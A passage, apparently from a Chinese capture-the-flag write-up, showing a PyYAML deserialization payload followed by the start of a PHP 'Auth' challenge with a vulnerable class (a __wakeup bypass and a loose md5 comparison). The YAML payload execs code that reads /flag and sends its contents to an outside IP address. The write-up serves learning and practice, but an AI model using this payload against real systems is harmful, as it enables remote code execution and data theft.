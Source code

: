 ![](../../../images/7ab825ef347fa9b0e55eece243fcc4ce.png)

```yaml
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "from urllib import request;print(getattr(request, 'urlopen')('http://27.25.151.98:8080/'+getattr(open('/flag'), 'read')()))"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
```

![](../../../images/efb87f3ae436d9b4dcdbc21eb8aef2d9.png)

## <font style="color:#5C8D07;">Auth</font>
大致逻辑是这样的，首先前台是一个 php。

```php
 <?php

class auth{

    public $username;
    protected $passwd;
    public $auth;
    
    public function __wakeup(){
        $this->username="nobody";
    }

    public function Getflag(){
        if($this->username === 'admin' && $this->passwd == md5($this->passwd)){
            echo 'welcome!';
            $this->processHeadersAndRequest();
        }else{
            echo 'nono';
            echo $this->passwd;
            echo md5($this->passwd);
            echo $this->username;
        }
    }

    public function processHeadersAndRequest() {
        // 获取请求的所有 headers
        $headers = getallheaders();

        // 将 headers 的键和值都转换为小写字母
        $lowercase_headers = [];
        foreach ($headers as $key => $value) {
            $lowercase_headers[strtolower($key)] = strtolower($value);
        }

```